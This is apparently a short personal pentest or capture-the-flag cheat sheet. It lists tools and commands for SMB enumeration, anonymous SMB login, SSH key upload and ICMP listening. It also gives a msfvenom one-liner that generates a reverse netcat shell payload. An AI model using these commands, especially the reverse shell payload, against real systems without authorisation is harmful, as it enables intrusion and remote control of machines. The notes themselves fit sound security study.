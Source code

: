 #Networking 
**Enum4Linux** - Tool to enumerate SMB

**smbclient** - Tool for exploiting SMB
You can use username anonymous if the machine allows it to login to the SMB service without password

**ssh-copy-id** - A utility for uploading SSH key to a remote server

`tcpdump ip proto \\icmp -i tun0` - Command for opening ICMP listener

`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R` - Generating reverse shell payload